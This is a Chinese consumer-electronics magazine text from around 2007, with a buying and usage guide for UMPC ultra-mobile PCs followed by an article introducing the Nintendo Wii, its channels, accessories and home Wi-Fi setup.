从市场角度看，UMPC现存最大问题是价格太高，一千美元左右的价格能接受的用户还不多，要飞入寻常百姓家，UMPC的价格必须大幅下调才行，如果达到五百美元这个价位，UMPC市场就会开始起飞，随着厂家研发力度的加强和产量的增加，预计UMPC的价格很快将降到一个合理水平。

第二是体积还需继续缩小。近期Intel推出了MID产品（MID，Mobile Internet Device）的小型可携式装置。MID不像UMPC有明确的规格定义，两者的区分是依照功能和应用取向。UMPC是全功能的小型随身电脑，而MID更偏重的是连网功能，屏幕尺寸仅在五英寸左右，强调可以放在口袋里随身携带。而威盛提出的Mtube超移动平台，尺寸会缩小到与普通PDA完全一致的水平。

第三个方面是无线连接能力还会进一步加强。现在集成的WIFI、蓝牙还不够，未来会有越来越多的UMPC产品加入3G、WiMAX等高端连接能力。而无线USB等新技术也将在UMPC上得到应用。

第四，UMPC对存储的要求是容量并不需要太大，而对存储的稳定性和低功耗有较高要求，这正是闪存硬盘的优势，预计今后UMPC存储设备将由现在的普通硬盘向闪存盘过渡，现在已经有部分高端UMPC采用了闪存硬盘，而随着半导体行业摩尔定律的应验，闪存硬盘的价格很快将降到合理水平，从而在UMPC中全面取代传统硬盘。

最后还有一个很关键的发展方向就是，电池续航能力需要大幅提升。在现阶段电池技术无法突破的情况下，降低耗电就是唯一出路。使用LCD背光、闪存硬盘都将降低耗电，另外英特尔将于明年上半年推出下一代代号为Menlow的UMPC、MID平台。使用新款45纳米制程处理器Silverthorne及下一代名为Poulsbo的芯片组，耗电量将降低到一个很低的水平。

#### 二、UMPC的选购要点

##### 1. 你真的需要UMPC吗

如果不考虑价格因素，UMPC当然适合于每一个人，是大多数消费者最佳的第二电脑工具。但是现在最便宜的UMPC也要接近一万元人民币，你真的需要花这么多钱购买UMPC吗？说实话，以UMPC现在的价格以及应用特性，注定它的目标客户群只能是中高阶的消费者，并且是有对此有绝对工作或生活需要的用户。特别是在国内，中低端用户受消费水平的限制，消费者讲究消费品使用价值的最大化，大多数用户不可能去买一台只适合于部分环境中使用的UMPC。只有中高端的用户，为了在普通电脑与笔记本电脑不便于使用的环境中，而PDA又不能满足的情况下，仍然可以有一个上网聊天、看资讯、玩游戏的设备终端，在消费能力可行的情况下，UMPC才是必要购买的产品。

有时不应单纯考虑便携，舒适性也是我们选购手持设备不能忽视的问题，在输入舒适性方面，普通小型笔记本电脑由于采用了标准的笔记本键盘，无论从手感还是从输入文字的速度上来看，适合于经常需要输入大量文档的环境，而UMPC是做不到这点的。

可以明确的说，UMPC并不能替代PDA或者笔记本，这款产品更多的是起填补笔记本与台式机之间的一个产品空白。根据UMPC官方网站的介绍：“UMPC的性能足以为用户带来极佳的游戏、音乐、视频播放体验。人们需要决定是否用UMPC取代现有的各类电子消费品”。UMPC注定不会是大众型的产品，从价格与应用理念来看，它只能是高消费层用户生活与办公的附属产品，弥补台式机与一般笔记本电脑在户外与自由环境中无法或者不便使用的空缺。总之我们在打算购买UMPC前，一定要将其优缺点认识清楚，并对自己的应用环境有明确认识，在经济条件许可的情况下谨慎购买，免得购买后出现使用率极低的情况。

##### 2. 基本软硬件平台

选购UMPC时，其基本软硬件平台是重点。软件上最好安装了Windows XP Tablet Edition操作系统或者Windows Vista，在Windows Vista操作系统中不再有专门的Tablet版本，但是Tablet操作系统应有的功能都已经集中在Vista操作系统里面，比如手写输入系统，以及适合于UMPC的Media Center娱乐功能系统。另外要注意最好选择通过了微软认证的机型，才是Microsoft Origami UMPC计划产品中的一部分，通过与否主要的判断标准就是这款产品是否采用了Windows XP Tablet Edition（或Vista）操作系统+Touch Pack面板。另外现在也有部分UMPC采用红旗（Red flag）、Ubuntu Linux等系统，但尚不是主流。

硬件上首先要注意基本平台的类型。目前最新平台是英特尔名为Ultra Mobile Platform 2007（代号为McCaslin）。包括了英特尔A100、A110处理器（代号为Stealey）、945GU Express芯片组、ICH7 I/O Controller Hub。另一类是由VIA C7-M处理器为主的硬件架构，价格较Intel平台要便宜不少，耗电也略低，但在性能上存在不小的差距。无论什么平台，最重要的指标就是功耗与发热量，其次才是性能水平。UMPC产品因为体积小，所装载的电池容量也相对要小，为了让UMPC有更长的电池使用时间，基本硬件平台的功耗越低越好。



UMPC在硬件配置上另一个关键指标就是采用何种硬盘，NAND Flash硬盘因体积小、功耗小、速度快、安全性高等优势，是UMPC产品最理想的存储设备，但是由于成本和容量的原因，目前在UMPC中NAND Flash存储设备还很少被采用。

##### 3. 无线接入能力

目前大多数UMPC都拥有WIFI无线网卡和内置蓝牙，能够更好地将网络融入到日常使用中来，并方便地无线传输任何数据。

UMPC未来的应用，会因为无线网络技术的不断推进而更加丰富，UMPC也将是未来用户中最方便的网络连接终端工具。其实，从目前的UMPC的一些特点，也能够预测到UMPC的这种发展方向。在目前WiMAX网络尚未实现的情况下，能够随时随地连接到互联网的只有CDMA/GPRS网络，以及国外已逐步普及的最先进的3G网络技术：HSDPA，在国外推出的多数UMPC产品当中，HSDPA高速网络连接技术成为了标准技术之一，以此来增强UMPC的网络连接功能。当WiMAX无线网络信号开始覆盖的时候，任何具备WiMAX网络技术功能的UMPC终端，都可以随时随地进行网络连接，今后WiMAX网络模块一定将融入到UMPC平台里面。

##### 4. 体积重量和输入方式

UMPC被人们关注的一个重点就是其超小的体积，而决定UMPC体积的主要因素就是显示屏大小，目前大多数UMPC的显示屏尺寸为7英寸，这一尺寸对某些客户而言还是太大了。现在5英寸左右的显示屏也开始在不少UMPC上采用，这类产品的体积就大大缩小了，而且重量也被控制在500g左右，这才是真正可替代PDA的“随身笔记本”。

除了体积重量外，UMPC采用何种输入方式也很重要，我们知道，目前市场上UMPC都采用了触摸屏，利用手写笔或者虚拟键盘进行输入，这样的输入方式在用户刚刚接触到时可能会感觉到一些新鲜感，不过到日常应用的时候，就会感觉到一些不便。有些UMPC专门定做了一个置于两边角上的虚拟键盘，人手可以直接触控操作，虽然虚拟键盘的按键有限，但可以消除以往用户对于这一类产品在输入方式上的障碍。如果你平时使用UMPC来进行文字输入的时候比较多，那么最好选择配置了物理键盘的产品。比如富士通的U1010，正是因为其配置了全功能键盘，因此受到用户追捧。

##### 5. 安全性及其他功能

UMPC经常随身携带，因此对数据安全的保障要求也比较高。作为随身携带的电脑，安全自然是比较重要的，而指纹识别装置就很好地起到了保护电脑内资料的作用。有些机型甚至可以利用摄像头进行面部识别，使用就更加方便了。另外UMPC虽然体积小巧，但是其接口还是应该尽量齐全，比如USB、CF卡插槽、视频接口等都应尽量具备。

最后一个需要提到的就是所有UMPC产品的人体工学设计，可以说目前很多UMPC产品在人体工学方面的设计都是十分糟糕的。这些产品要么就是体积太大，要么就是使用的时候比较困难。这方面，SONY，富士通等国际知名大公司做得是不错的。

## 二、UMPC代表产品简介

##### 1. 三星Q1系列

三星Q1系列无疑是目前国内UMPC中最畅销的产品。老款的Q1采用了Intel Celeron ULV 900MHz CPU、Intel 915GMS芯片、内置512MB内存、1.8英寸40GB硬盘。此外还有WLAN连接，可接入802.11B/G标准的网络，内置蓝牙模块。另外有一款Q1b，使用VIA的CPU，价格要便宜不少。三星Q1的外形尺寸大致为227.5×139.5×24.5-26.5mm，重量也仅为777g。

屏幕为7英寸15:9显示比例宽屏，强劲的SRS 3D声音系统，内置双麦克，以及三星独有的免开机AVS Now快速多媒体平台，接口方面有两个USB2.0, VGA端口，耳机输出，RJ45和一个TypeII CF Card插槽，基本能够满足日常需求。



新Q1系列中，低端的Q1U-ELXP售价999美元(RMB 7554元)，采用600MHz的A100 Ultra Mobile，硬盘为40GB；稍微高级点的Q1U-XP价格为1149美元(RMB 8688元)，CPU 为800MHz A110，硬盘80GB；而最高端的Q1U-SSDXP开价1649美元(RMB 12469元)，最主要的差别是硬盘换成了32GB NAND闪存硬盘，操作系统都采用Windows XP Tablet Edition。

##### 2. 索尼UX系列

索尼VGN-UX系列是比较令人关注的UMPC，其特点鲜明，采用了4.5英寸的高分辨率显示屏，整机重量不到500克，在保持体积小巧的同时，还提供了物理键盘。目前最高端VGN-UX28CN，使用了Intel Core Solo U1500 处理器，主频达到了1330MHz，芯片组为 Intel 945GM，标准内存容量为1024MB，最令人兴奋的是使用了32GB的闪存硬盘，让整机性能上了一个台阶。这款产品还预装了超炫的Vista系统，并且还内置指纹识别功能，集成了摄像头功能(前方30万像素 后方130万像素)。不过该产品的价格也高得惊人，在数次降价后价格仍高达2万人民币。更加实惠的选择则是UX17C，配置比UX28CN略低，最主要是使用了普通硬盘，价格也因此降到了12000元左右。

由于体积限制，SONY UX系列UMPC的接口部分相对简单，虽然只配备了常用的USB2.0接口以及读卡器插槽，但附带的底座，则提供了足够的接口。


##### 3. 华硕R系列

华硕的R系列UMPC也是比较有特色的。尤其是内置了GPS导航功能的R2，对于推动UMPC应用起到了较大的作用。R2面向行动力极强的商务精英，分别从外观时尚、行动效能、安全效能、使用便利、稳定可靠等方面进行了综合考量，在重仅0.83公斤的超轻巧机身中构筑PC功能与娱乐宝典，并全球首度内嵌GPS卫星导航系统及独家图资。

配置上，R2采用Intel ULV Celeron M 900MHz处理器和Windows XP Tablet PC Edition 2005系统，最大支持768MB内存与60GB硬盘，并支持无线网络、蓝牙模组、内建130万像素摄像头，足够完整提供一台标准PC的数据处理和视讯功能，R2不但提供了手写笔及S/M触控式键盘输入模式，还可随时外接Port bar扩充基座及USB折叠键盘。新的R2E使用Intel的Mobile Platform 2007（800MHz A110处理器、945GU芯片组），内存1GB，硬盘也加大到了80GB，还特别增添最新HSDPA数据传输(3.5G)技术，传输速度高达3.6Mbps，为用户带来了更多无线应用便利。



尚未正式上市的R3 UMPC，其本质更接近 MID。R3采用Intel的Menlow 平台，屏幕是4.8英寸，1024x600的分辨率，并且有指纹扫描仪、Webcam和内置GPS。不过比较遗憾的是使用了Linux操作系统，而非Windows。

##### 4. 富士通U1010

富士通Lifebook U1010是近期非常热销的一款UMPC，其外观更接近微型平板电脑。预装了Windows Vista Home Premium操作系统。安全方面具备BIOS锁和第二代指纹识别技术。U1010配备了分辨率达1024×600、仅5.6英寸的可旋转式触摸宽屏幕，仅重610g，整机尺寸为171×133×26.5~32mm，在UMPC中相当小巧。它采用新一代Intel Ultra Mobile 2007平台，标配了800MHz的Intel Stealey处理器、1GB内存和40GB硬盘，标配4芯电池，电池续航能力能够达到4个小时。

U1010拥有时尚外观，白色外壳显得知性与优雅。U1010的屏幕可以180度旋转并支持如平板电脑般的触控笔操作。U1010采用全键盘设计，配置了崭新设计的纤薄0.2mm镀铝合金Qwerty键盘，无需像其他的UMPC那样使用外接或是只能在掌上以单指操作的上推式键盘，实现了在UMPC内重拾笔记本电脑具有韵律性的极佳手感。它还配有SD读卡器、2个摄像头和USB扩展坞，不过比较遗憾的是U1010没有采用更为先进的闪存硬盘。



##### 5. 方正MiniNote

方正Mininote是第一款国产UMPC。采用了7英寸宽屏，拥有225×144×23mm的身材、830克的体重，可以让你体验到真正的轻薄和便携带来的惊喜。配置方面，方正Mininote使用Intel 915芯片组和uLV Dothan CPU，迅驰二代笔记本架构和低电压版本的CPU，完全实现了笔记本电脑的所有功能。

Mininote运行Windows XP操作系统，可以安装使用大部分支持XP系统的软件，运行大部分PC类游戏，并附带Joylink软件，兼容性极佳。有了它，我们可以随时浏览网页、处理邮件、播放影音文件、处理Word、Excel文件、玩游戏，移动娱乐、办公轻松搞定。Mininote机身具备USB、读卡器等通用接口，可以轻松连接数码摄像机、相机等设备，让你外出游玩时更加尽兴，而不必因数码设备容量有限而担心。另外Mininote在价格上具备较大优势，最低配置不到7000元就可以拿下。

##### 6. 其他UMPC产品

- 汉王UMPC采用了VIA C7M平台，并拥有“汉王手写识别技术”等多项独门绝技，而且其出色的上下游配合能力，与微软和威盛搭档的黄金三角组合，加上比较合理的价位，使其成为UMPC市场的黑马。
- OOO，微型PC的推动者，有多款颇具特色的UMPC，采用5英寸小屏幕，体积超小，但是它却提供了多种输出接口，可以将显示内容输出至大屏幕液晶显示器上使用。比较超前的是，它甚至提供了HDMI输出接口，可以达到1920×1200像素输出，完全支持1080p高清视频。不过目前OOO的产品尚未正式进入大陆市场。
- HTC的Shift则是一款相当另类的UMPC产品，最大特色就在于Shift不仅仅是一台具有3.5G通信功能的高端PDA手机，而是能够相当顺畅地在UMPC（Windows Vista）及PDA之间切换。



## UMPC应用方案

用UMPC我们可以做些什么呢？各种Web应用、游戏、媒体功能、无线上网，还有卫星电视和GPS应用，随时随地存取内容与信息，通过电子邮件、即时消息、聊天或博客等手段靠此沟通，在旅途中以视频、游戏、音乐、图片或者电视自娱，通过监控办公应用程序和工具提高工作效率，一句话：普通台式机或笔记本电脑能办到的事UMPC也能完成。

##### 1. 随时随地无线上网移动办公

UMPC的便携性和丰富的无线连接能力使其在移动办公方面具备较大的优势。我们可以通过UMPC使用即时聊天软件聊天、进行在线商店的购物，在汽车里使用UMPC收发和阅读电子邮件，使用其集成的GPS定位功能并且与台式电脑进行同步。在网络连接方面，为了提高产品的移动性能，UMPC大多内置了Wi-Fi无线网络和蓝牙功能；具备出色的网络连接功能。通过内置蓝牙，连接手机后，就算是没有无线热点，使用者也能够随时随地进行网络冲浪。移动办公是UMPC最主要的应用。我们首先应根据电脑不同的配置水平，安装合适的OFFICE版本，对于主流配置的产品，可以安装高版本的OFFICE 2003/2007，另外要根据自己的习惯安装合适的中文输入法，对于普通用户推荐大家使用“搜狗拼音”。

移动办公中的一项重要内容就是无线上网，UMPC实现无线上网主要有两种方式，一是无线局域网（WLAN），可以在“热点区域”或通过无线AP/路由器上网。另一种是基于手机网络的广域无线上网。从理论上说只要有手机信号的地方就可以实现上网的愿望，尽管连接速率较慢（一般在50Kbps以下），但由于覆盖面广，这种方式更适合与UMPC配合实现移动办公。此外我们还可以使用UMPC收发传真，WIN VISTA/XP都内置了传真功能，我们也可以使用WINFAX等第三方传真软件。如果你的手机开通了传真功能，就可以通过与手机配合，方便地收发传真。



##### 2. 超级影音娱乐工具

更多时候，UMPC是我们手中一个超级的影音娱乐工具。虽然屏幕略小，但在坐车、坐飞机时拿来看看影片、听听音乐、玩玩游戏，也是一个很不错的娱乐方式。

UMPC在娱乐方面，功能是很强大的，其使用方式完全与普通电脑一样，我们要做的只是在上面安装好合适的影音播放软件。一般而言，安装“千千静听”和“暴风影音”这两款软件就可以播放几乎所有影音文件了。至于游戏，大家可以根据爱好和需要安装适合用触摸屏玩的游戏。当你把UMPC放进背包以后，类似MP3与MP4之类的多媒体文件播放器和PSP之类的掌上游戏设备就完全可以“休息”了。

UMPC还是一个超级“数码伴侣”，可以通吃各种存储卡。在外出旅行的时候将其放进旅行包里，拍摄再多的照片也不必担心存储卡被占满的问题了，可相当于一个出色的数码伴侣。此外还有产品可以嵌入电视接收功能，随着未来DMB运营商开始正式的商业服务后，相信各大UMPC商会及时提供内置DMB模块的产品。

总之即使作为个人娱乐的终端，UMPC可以超越目前市场上任何影音专项设备。

##### 3. GPS电子地图应用

GPS是英文Global Positioning System的缩写，意即全球定位系统。全球定位系统是利用导航卫星进行测时和测距，使在地球上任何地方的用户，都能计算出他们所处的方位。UMPC由于携带方便，十分适合用于全球定位，我们只需要购买一块CF或蓝牙接口的GPS模块（华硕R2内置了GPS模块），再配合适当的软件及地图，就可以实现移动定位、路径选择、物体追踪等很多功能。当我们要出门，如果UMPC有内建GPS，或是配合蓝牙GPS，只要安装上电子地图，至少可以让我们不用携带地图，可以减低我们迷路的可能性。

UMPC可以结合运营商来提供很多非常实用的功能，GPS定位功能就是其中很典型的一个。现在很多车载的GPS系统，都已经在成熟的UMPC产品上实现了。而这样一来，UMPC用户就在拥有了UMPC的同时，也等于拥有了车载GPS系统。

通过上面的文字我们可以看到，最新的UMPC几乎融合了PDA、笔记本电脑、PSP游戏机、MP3、MP4、移动硬盘、GPS导航仪等设备的诸多优点，开创了一种全新的产品类别和使用模式。

#### 五、UMPC升级维护

##### 1. UMPC软硬件升级

由于体积过于小巧等原因，和台式机及普通笔记本电脑相比，UMPC在软硬件升级的灵活性上是大大落后的，不过我们还是可以对UMPC的软硬件进行适当升级。软件上我们可以升级操作系统版本。比如将某些安装普通版本XP的产品改为Windows XP Tablet Edition操作系统或者Windows Vista。

威盛超移动平台的超移动设备：RuggedBook PC657和Nanobook，这两款产品均以出色的扩展设计，备受人们关注。由于大部分UMPC并没有PCMCIA插槽，因此Samwell公司的RuggedBook PC657格外引人关注。借助该插槽，PC657不仅可插接显卡、声卡、网卡、USB2.0卡、电视卡、视频采集卡以及其它种类繁多的扩展卡，同时还可扩展DVB-H移动电视、GPS导航功能，以及CDMA/GPRS和3G等通讯模块。凭借这个“万用”扩展插槽，UMPC可以方便的成为集手机、PDA、PC、导航仪于一体地强大终端设备，具有很强的实用性。可以说，扩展性是超移动设备的重要发展方向之一，也是其x86平台所带来的先天优势。目前除了PCMCIA、USB等接口实现功能扩展之外，还有厂商为超移动设备设计了布袋键盘、蓝牙电话、超移动支架、吸盘等的配件。我们的UMPC将变得更“万能”，可以随心扩展外设模块，让便携与全能两者兼得。

在硬件升级上UMPC的空间不大，很多UMPC采用了专用内存，不仅很难买到，而且价格不菲。因此我们在购买UMPC时，内存配置最好一步到位。这里建议有条件的朋友升级UMPC的硬盘，如果是普通硬盘，最好换为1.8英寸的固态闪存硬盘。三星最新推出的闪存硬盘基于八块8GB高速SLC NAND闪存，其性能要强于普通的SSD NAND闪存。用户使用这种SLC固态闪存硬盘后的读写性能表现与以前的产品相比可以提高20%至60%。闪存式硬盘的平均无故障运行时间达到了200万小时，平均读取速度67MB/s，待机/运行功率仅0.4/1.0W。

##### 2. 系统维护与备份

很显然UMPC光软都是外置的，一旦系统出现问题，处理起来比较麻烦，因此安装程序一定要谨慎，一定要首先查杀病毒，再安装软件，安装软件一定要小心，最好先在台式机上确认无毒，再在UMPC上安装。尽量使用“绿色软件”，可在其他电脑上安装好，经测试无误后用闪存盘或CF卡等介质拷贝到机器上。也可设法通过网卡、蓝牙等与台式机连接，用台式机的光驱来进行安装。

在安装好常用软件后，进行系统个性化设置和优化整理、磁盘扫描，在系统稳定后，就应该进行系统备份了，在DOS下运行Ghost，选择“LOCAL→PARTION→TO IMGE”，将系统区备份为一个镜像文件。建议选最大压缩，确认后开始执行备份到另一个分区。以后系统一旦出现严重问题，恢复起来就很快捷了。

由于没有光软，UMPC一旦感染病毒处理起来也比较麻烦，建议大家可以使用在线杀毒软件，现在网上有不少收费或免费的在线杀毒网站，杀毒效果相当不错。

##### 3. 增强电池续航能力

当然，目前的UMPC产品也存在一些不足之处。我们知道，越是便携性出色的产品，对其电池续航能力的要求就越高，而目前市场上的UMPC电池续航能力并没有达到我们预期的能力。UMPC限于体积，电池容量一般较小，不过我们可以通过一些技巧尽可能延长电池的待机时间。首先是所有UMPC在BIOS中都对CPU的节能技术给予了支持，我们一定要在BIOS设置中正确设定。其次可以使用专门的CPU降温节能软件。

电池是UMPC的消耗品之一，使用不当的话电量会下降很快，甚至报废。锂电池的“记忆效应”只是比较小而已，如果使用不当也会很快“衰老”，锂电池的衰老是一个恶性循环的过程，具体表现是内阻变大，在充电的时候端电压上升较快，这样就容易被充电控制线路判定为已经充满了，而在放电时电压下降幅度大、速度快，容量自然就下降了。如果发现容量在短期内大幅下降，多是使用不当导致，我们可以使用“电池校正”程序来挽救。

### 愉说纵情，尽在Wii时代

◆文/庄浩罡

#### 一、什么是Wii

Wii原本的开发代号为“Revolution（革命）”，后定名为Wii，Wii（发音同"We"）是任天堂继GameCube（NGC）之后所推出的新生代电视游乐器主机，名称是源于英文的“We（我们）”，强调该主机老少咸宜、能让一家大小都乐在其中的概念。它造型轻巧且安静省电，最大的特色在于配备有具备指针与动态感应的无线控制器，可提供与以往游乐器不同的崭新操控体验与游戏乐趣。完全的体感式游戏方式，彻底颠覆了我们传统的游戏方式。Wii内建512MB的闪存储存空间，以及Wi-Fi无线网络、SD卡卡片阅读机、NGC控制器与记忆卡连接端口，可游玩Wii与NGC的游戏光盘，而且还可以下载游玩任天堂红白机（FC）、超任（SFC）、任天堂64（N64）、PCE、MD、MSX……各种以往游戏主机的游戏，还可以观看SD卡中的照片与影片，浏览网页、新闻与气象预报。

在初始状态下（未经修改），某个地区的主机只能读取该区码的游戏，比如美版只能读取美版的游戏。澳版和欧版的游戏是一样的。还有就是日版和美版主机电源为110V，欧版和澳版主机电源为220V；欧版及澳版制式为PAL，而美版和日版制式为NTSC；日版不包括《Wii Sports》游戏，其他版本均捆绑该游戏。各地区的发售时间、价格也不尽相同：美国发售日期为2006年11月9日，价格为250美元；日版发售日期为2006年12月2日，价格为2.5万日元；澳大利亚发售日期为2006年12月7日，价格为400澳元；欧洲发售日期为2006年12月8日，价格为250欧元和180英镑。

#### 二、Wii游戏主机的标配

以日版Wii主机为例，包装盒包含：

- （1）Wii主机本体 ×1
  规格：宽44 mm×高157 mm×长215.4 mm，约3个DVD空盒大小。
- （2）Wii主机本体专用直立架 ×1
  作用：供主机直立摆设用的底座，直立时会以前高后低的方式摆设。
- （3）Wii主机立架辅助板 ×1
  作用：安装于直立架底部，让直立时更稳固的透明圆板。
- （4）Wii遥控器（附吊带）×1
  作用：操控Wii主机的标准控制器，附用于防止脱手的手腕吊带。
- （5）双截棍控制器 ×1
  作用：与Wii遥控器搭配的附属控制器。
- （6）Wii专用光学感应条 ×1
  作用：供Wii遥控器的指针功能感应用，摆设在屏幕上方或下方。
- （7）Wii专用AC变压器 ×1
  作用：供应Wii主机电力的变压器。
- （8）光学感应条支架 ×1
  作用：用来架设光学感应条的塑料小支架。
- （9）Wii专用AV连接线 ×1
  作用：Wii专属规格AV端子影音输出线。
- （10）5号干电池(Wii遥控器用)×2
  作用：供Wii遥控器用的标准5号干电池。

#### 三、Wii频道简介

光盘频道：主要是放入光盘进行游戏时使用。

Mii频道：作为Wii操作系统中默认的频道之一，任天堂致力于通过Mii让社区游戏变得更加有趣，更加贴近生活。其实Mii的理念相当简单。玩家需要自己创建一个虚拟的角色。随后，这个Mii形象将被保存至Mii中心和自己的Wii本机上，如果你用心，完全可以设计出一个和自己本人很相像的形象来。

相片频道：就功能方面来说，Wii是一部游戏主机，而就娱乐来说，Wii又是一部多媒体装置，因为它为广大玩家提供了相片浏览、音乐播放，以及影片播放的功能。只要将自己喜欢的Wii所支持的图片、音视频文件放入SD记忆卡中，之后插入到Wii插槽中即可欣赏。

购物频道：在Wii中同样可以进行虚拟购物，购置回来的可都是些经典的游戏噢，不过虚拟货币同样也是需要用现实货币来“兑换”的。

天气频道：在Wii主界面当中，第二行的左起第一个图标就是天气频道。在天气频道中我们可以免费查看各地的天气情况，但由于Wii目前没有针对中国用户推出Wii游戏主机，所以暂时来说，中国地区的用户在使用日版Wii主机的时候，只能定制日本各地的天气情况，而不能定制中国各省的天气情况，不过我们可以临时查询，总算抚平了些许的遗憾。

新闻频道：新闻频道同样是Wii游戏主机中定制的一个频道，不但可以知晓天下新闻，而且无论是地球仪的地区选择，以及图文并茂的展现方式，都让广大玩家有眼前一亮的感觉，只是目前都是日语新闻。

投票频道：主要是通过在购物频道免费获得的频道，功能是自己发布一个简单调查，之后查看用户的投票情况。

浏览器频道：浏览器频道的功能主要是突显Wii游戏主机的上网功能，但现已不能免费获得浏览器频道了，需要在购物频道通过虚拟货币购买才可以获得。

> 小提示：这些配件中，干电池可有可无，尽管属于标配，但如果异地购买的话，采用空运的快递公司是不能快递干电池的，还有就是110V的AC变压器，我们还需要购买一个110V~220V的变压器，因为中国大陆采用的是220V的供电，但不建议购买直插电源，因为那样容易给Wii主机造成危害（如图1）。

#### 四、10款超酷Wii周边配件赏析

1. 共同的期待——Wii Fit

充分展示任天堂旨在扩大游戏受众面理念的崭新创意的Wii Fit，在E3展示之后，广大Wii友们便开始期待，期待这款游戏，同时也期待随同游戏配套的周边——Wii平衡板。同时也叫做“Wii健康包”，预定于2008年上半年在北美地区推出（如图2）。

玩家可以通过Wii Fit配合Wii平衡板进行各种健身活动，如俯卧撑、有氧操、呼拉圈等，系统会根据玩家的动作检测玩家的运动效果和身体状况。同时Wii平衡板也有相当的游戏功能，比如宫本茂和雷吉在现场进行的头球比赛，两人站在平衡板上靠移动身体平衡来控制自己的Mii形象头顶飞来的足球，玩家不仅要左右头球，还要躲避间或飞来的鞋子等杂物干扰。此外还有类似滑雪的游戏，平衡板正好充当了滑雪板的角色。尽管价格等多方面因素还没有最终确定，但关注的程度已经非常了得了。

2. 机枪组合体——Wii Zapper

在看过了可以减肥的Wii Fit之后，让我们有了些许的运动冲动；如果看了下面的Wii游戏主机配件，恐怕我们将会有些暴力的幻想。Wii Zapper，在E3大展上同样引人注目的一款Wiimote周边产品，在将双截棍与蘑菇手完美组合成一款劲暴十足的动感冲锋枪之后，广大年轻Wii玩家无不拍手叫好。实在是太棒了。与此同时，Wii Zapper在日本将会与Sega即将推出的力作《Ghost Squad（幽灵战队）》一同上市，到那时，一场精彩刺激的火并场面将震撼登场（如图3）。

3. 光线手枪

冲锋枪固然冲劲十足，但手枪的威力也毫不逊色。在《恶灵古堡四》即将发售之际，如果没有光线手枪配套使用，会略显有些遗憾。光线手枪的设计并不是把Wiimote跟Nunchuk结合在一起，而是利用Wiimote下面的扩充插槽相结合，并且有一个真正的扳机，这样我们就不用太过担心B键的过早下岗了。把Wiimote放在光线手枪的插槽上，光线手枪就会将扳机对应到Wiimote的按钮上，然后Nunchuk接在下面的那个插槽即可开始玩了。

4. 拳击手套

拳击手套是专门针对当下流行的Wii Sports中的拳击游戏所推出的一款Wii周边产品。戴上它之后，将真正体验到戴着拳击手套进行格斗的感觉。戴上拳击手套，然后将Wiimote放到手套之中，而且手中不用握着游戏杆就可以进行战斗了。开始吧；从现在就开始你的左勾拳，右勾拳，看看你在拳击手套的帮助下，什么时候可以将你的对手打倒。

5. 无线感应棒

这款由Nyko推出的Wii专用无线感应棒与Wii自带的感应棒最大的差异就在于，Wii内建感应棒是由Wii主机来供电，而这款无线感应棒则是由四个AAA电池所供应，最大连续使用时间为30个小时，使用距离则可以到5米以上。因为采用了无线的设计，所以少了那些讨厌的线缆，而且也不用担心走过去人会被绊到或是把主机弄倒了。在感应棒右上方有电源推钮，可以开关感应棒，还有定时开关功能，如果怕自己每次忘记关掉而浪费电源的话就可以设定你要开启的时间，有OFF、1HR、2HRS，时间到了感应棒会自动发出“哔哔”的声响，超过五分钟没有理会的话就会自动断掉电源。

6. Wi-Fi配套设备Wi-Fi Gamers

想必拥有NDS与Wii的玩家一定都被无线网络给弄得头大，没关系，现在知名的网络设备公司Buffalo推出了一款专门给电玩用的无线网络AP——Wi-Fi Gamers，它可以支持Wii、NDS、PSP、PS3等当下主流游戏主机。因为是专门为电脑玩家所设计，内建的AOSS功能使Wii与NDS通过一个按钮就可以完成所有配对跟联机动手。真是方便不少。而且该产品使用常见的802.11 b/g双规格，安全性支持WPA-PSK（TKIP/AES）和WEP（128/64bit）加密方式。不过该款产品并没有内建路由器功能，因此宽频路由接入才可以。

7. 手柄充电器

外形相当精美，采用类似家用子母电话充电形状的设计，高低适中。打开产品包装，我们会看见内附充电座、充电电池和Wiimote电池盖。将充电电池放入Wiimote，然后将Wiimote放在充电座上就可以开始充电了。电充满了就会亮起蓝色灯光提示。

8. Wii方向盘

该款产品并非是第一款Wii的的方向盘周边，但它却是笔者见过的第一个带有底座的方向盘，这样的设计应该可以在使用舒适程度上更加良好。驰骋在拥挤的赛道上，你应该拥有一个这样的方向盘，来发挥你超一流的行车技术（如图4）。

9. Wii台球杆

在众多休闲游戏中，台球游戏应该是非常有趣的一款游戏，不但考验准确度，而且对于力度等方面的要求也是很高噢。现在的台球游戏还不是很多，不过已经知道有数款台球游戏在紧张地开发中。

10. Wii钓鱼竿

除了在运动中感受Wii游戏主机的超强体感体验之外，Brando公司推出的全新Wii周边——Wii钓鱼竿不仅让我们眼前一亮，而且拿在手里的舒适程度也是一流，舒适得体。只可惜在钓鱼竿前方的那条塑料鱼并不会用力抵抗和垂死挣扎，不然那身临其境的感觉将更加真实。不过在电视机前甩竿的同时，要注意不要伤及无辜噢。

#### 五、让Wii在无线中WI-FI起来

Wii除了采用让人真正参与其中的游戏方式之外，全球领先的有线和无线通信半导体公司Broadcom Corporation专门为Wii提供了蓝牙（Bluetooth）以及Wi-Fi技术支持，并向玩家提供支持高性能、无线通信解决方案的独特游戏体验，使得Wii成为史上首款对应Wi-Fi的家用游戏主机。蓝牙技术被应用在Wii最大特征的无线控制器上，实现主机和控制器的高速通信。另外，Wii还内置了54gR的Wi-Fi解决方案，使Wii游戏主机可以维持与无线接入点之间进行高速通信。

> **什么是Wi-Fi**

Wi-Fi的英文含义为无线保真（Wireless Fidelity），是一种无线电技术。它不需要网线就能实现计算机之间的连接以及计算机与因特网的连接。开始于1997年的IEEE 802.11b标准的建立。实际上Wi-Fi是Intel公司联合众多厂商组成的一个联盟，目的是为了促进802.11无线技术的市场化。到现在为止Wi-Fi推出三个标准分别为802.11b、802.11a以及802.11g。802.11n作为Wi-Fi的新一代标准，其技术规范的最终批准预计将在2007年9月之后出台。

通过将Wii连接入网，我们可以对主机程序进行升级，并且可以进行联网对战。不过如果要让Wii顺利连接入网，家中除了电脑主机之外，还要拥有一台无线路由器，这样才可以利用小区宽带将Wii通过Wi-Fi功能带入互联网中。首先将无线路由器与小区宽带连接，启动无线路由器之后，在浏览器中输入“192.168.1.1”回车之后即可进入无线路由器的登录界面（如图5）。

> 因为各个品牌的无线路由器设置不同，所以登录界面的地址也不完全相同，有的地址就是“192.168.0.1”，大家可以根据产品说明书来完成相关设置。还有就是登录的用户名和密码，一般默认情况下都是“admin”，当然也有用“root”作为用户名和密码的无线路由器，总之大家还是要仔细查看说明书才是。

